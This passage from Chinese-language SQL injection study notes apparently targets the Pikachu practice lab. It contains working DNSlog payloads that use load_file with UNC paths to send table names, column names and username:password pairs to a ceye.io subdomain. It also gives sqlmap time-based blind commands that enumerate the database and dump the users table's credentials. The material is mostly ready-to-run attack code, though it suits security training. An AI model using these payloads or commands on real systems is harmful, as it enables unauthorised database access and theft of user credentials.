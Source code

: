 ```sql
1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 3,1),'.xxxx.ceye.io\\sql_test'))),1,0)#
```

##### **查询列**

```sql
1' and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 4,1),'.xxxx.ceye.io\\sql_test'))),1,0)#

```

##### **查询值**

```sql
1' and if((select load_file(concat('\\\\',(select concat_ws('--',username,password) from users limit 0,1),'.xxxx.ceye.io\\sql_test'))),1,0)#
```

**时间注入利用情景**

- **页面上没有显示位**
- **没有输出报错语句**
- **正确的sql语句和错误的sql语句页面返回一致**

#### **SqlMap实现时间盲注**

```
--batch: 
	用此参数，不需要用户输入，
	将会使用sqlmap提示的默认值一直运行下去。
--technique:
	选择注入技术，
	-T:Time-based blind  （基于时间延迟注入）
--threads 10 :
	设置线程为10，
	运行速度会更快。
```





```bash
#查询数据库 #【pikachu】
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2#" --technique T --current-db --batch --threads 10

#获取数据库中的表 #【httpinfo,member,message,users,xssblind】
python sqlmap.py  -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2#" --technique T -D pikachu  --tables --batch --threads 10

#获取表中的字段名 #【...user,password,...】
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2#" --technique T -D pikachu -T users --columns --batch --threads 10 

#获取字段信息
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2#" --technique T -D pikachu -T users -C username,password --dump --batch --threads 10 
```
